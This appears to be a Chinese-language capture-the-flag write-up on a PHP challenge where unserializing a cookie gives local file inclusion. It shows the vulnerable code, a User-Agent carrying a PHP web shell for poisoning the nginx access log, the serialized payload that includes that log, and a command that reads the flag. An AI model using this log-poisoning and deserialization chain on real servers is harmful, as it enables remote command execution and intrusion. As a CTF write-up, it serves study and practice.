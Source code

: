 ## 分析

```
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

就是一个反序列漏洞造成的 `LFI` 文件包含, 但是 `flag` 文件名为随机的，所以就需要获得一个`shell`

利用思路：
	
1. 首先在 access_log 中注入我们的 php 代码，需要注意这里需要双引号

```
"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0<?php system($_GET[1]);?>"
```


2. 然后生成一个包含 `/var/log/nginx/access.log` 的反序列化 payload

```php
$page = new PageModel;
$page->file = '/var/log/nginx/access.log';
print(base64_encode(serialize($page)));
```

3. 然后在 `cookie`中注入反序列化的 payload，触发文件包含漏洞
    
4. 访问 `GET /?1=cat%20../flag_5Yces` 获取 flag
	